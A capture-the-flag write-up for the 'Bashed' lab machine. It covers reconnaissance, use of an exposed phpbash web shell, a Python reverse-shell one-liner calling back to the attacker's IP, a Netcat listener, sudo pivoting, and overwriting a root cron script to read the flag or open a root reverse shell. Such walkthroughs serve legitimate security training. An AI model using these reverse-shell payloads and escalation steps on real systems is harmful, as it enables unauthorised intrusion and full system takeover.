


# Bashed      


## Solution

### Scan with Nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.


Here is the description of the open port shown in the screenshot:

### **80/tcp (HTTP)**
The web server on this port is **Apache httpd 2.4.18** running on **Ubuntu**. It supports HTTP methods **GET**, **HEAD**, **POST**, and **OPTIONS**, providing a variety of options for client interactions. The HTTP title returned is **Arrexel's Development Site**, indicating a development-oriented webpage. The **Apache/2.4.18 (Ubuntu)** server header confirms the server type and version, which may be relevant when identifying any vulnerabilities specific to this version of Apache. Additionally, a unique favicon hash **MD5: 6AA5034A553DFA77C3B2C7B4C26CF870** suggests potential for fingerprinting or further analysis.

Http is open, so let's paste `http://{target ip}` into the browser.


The site is very limited but we can easily access the only article - **phpbash**.



Let's join `https://github.com/Arrexel/phpbash` then.


My guess was that we have to transfer `phpbash.php` or `phpbash.min.php` to the server and then try to execute it.

I was thinking that maybe we could find `uploads` subdomain and then drop file there, so I used **Gobuster**. 

### Gobuster

I typed:

```
gobuster dir -u http://{target ip}/ -w {path to the dictionary}
```


Interestingly, there was nothing in `/uploads`, but in the `/dev` section I found `phpbash.php` and `phpbash.min.php`.


Let's click on `phpbash.php`.


We have a shell.


### Get the user flag

The `user` flag is in the `/home/arrexel` directory.


### Privilege escalation

Although **phpbash** shell is quite good, I prefer to have one in my terminal rather than in the web. Especially when I have to find out how to escalate privileges. The web one often freezes and you have to refresh, losing your progress.


**Python** is present, so we can create **Python** payload.

If you want to create `payload` quickly go to `https://www.revshells.com/` and select one of the Python ones(remember not to use Python3 ones).


I used **Python #2**:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{your tun0 ip}",{port of your choice}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

You can copy, and modify it.

### Netcat

Let's set up a **Netcat** listener.

```
nc -lvnp {port you have chosen}
```


Now in the webshell paste your paylod.


In your **Netcat** tab you should have a shell.


You can stabilize it by pasting:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

Let's hit:

```
sudo -l
```


This output means that the user `www-data` can run any command as the user `scriptmanager` without needing to provide any password (`NOPASSWD`). The `env_reset` and `secure_path` settings reset environment variables and define a secure path for commands run via `sudo`. Essentially, `www-data` can switch to `scriptmanager` and execute commands with their permissions.

Let's type:

```
sudo -u scriptmanager /bin/bash
```


Ok, now is finally time to find a good way to get that `root` flag.


There are some unusual files and directories in the `/` directory, however I can only access `/scripts`. 

As `initrd.img` and `vmlinuz` don't seem to be as interesting as `/scripts`, let's move to that directory.

### Key Point


There are two files there `test.py` and `test.txt`.


As you see `root` is the owner of the `test.txt` file and has **read and write** permissions to it.


Take a look. `test.txt` is being modified every minute and always looks the same.


An important conclusion for us - it looks like we were executing the `test.py` script every minute.

It appears that `test.py` is being executed by `root` every minute.

### Get the root flag

**We now have two approaches to the topic, in both cases we will have to modify `test.py`:**

**1) We will replace the original code with one that will extract the flag directly from the `/root/root.txt` file.**

**2) We will replace the original code with one that will give us a reverse shell, and since the payload will be executed directly by `root` - we will get a `root shell` in a new tab.**

### (1) Script

As this method seem to be more unlikely to work(because the flag dosen't have to be in `/root/root.txt` path), let's start with it.

There is no `nano` or any other text editor on the target system, so we will need to overwrite the file using the `>` and `>>` operators combined with the `echo` command.

My idea is simple and my code looks like this:

```python
g = open('/root/root.txt', 'r')
f = open('test.txt', 'w')
f.write(g.read())
f.close()
g.close()
```

Now, in order type:

```
echo "g = open('/root/root.txt', 'r')" > test.py
```
```
echo "f = open('test.txt', 'w')" >> test.py
```
```
echo "f.write(g.read())" >> test.py
```
```
echo "f.close()" >> test.py
```
```
echo "g.close()" >> test.py
```


Now, we have to wait till next `test.py` execution, so less than a minute.


The flag is in there! It's in the `/root` directory.

### (2) Reverse shell

Let's modify previously used **script** into a **program**.

It looked like this:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{your tun0 ip}",{port of your choice}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Our program should look like this:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("{your tun0 ip}",{port of your choice}))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```

Now, type in order:

```
echo 'import socket,subprocess,os' > test.py
```
```
echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM)' >> test.py
```
```
echo 's.connect(("{your tun0 ip}",{port of your choice}))' >> test.py
```
```
echo 'os.dup2(s.fileno(),0)' >> test.py
```
```
echo 'os.dup2(s.fileno(),1)' >> test.py
```
```
echo 'os.dup2(s.fileno(),2)' >> test.py
```
```
echo 'import pty' >> test.py
```
```
echo 'pty.spawn("sh")' >> test.py
```


### Netcat again

Now, setup **Netcat** listener on port you have chosen:

```
nc -lvnp {port you have chosen}
```



Again - wait less than a minute till next `test.py` execution and you should have a shell as `root`.


`Root` flag is in the `/root` directory.


### Paste the flags

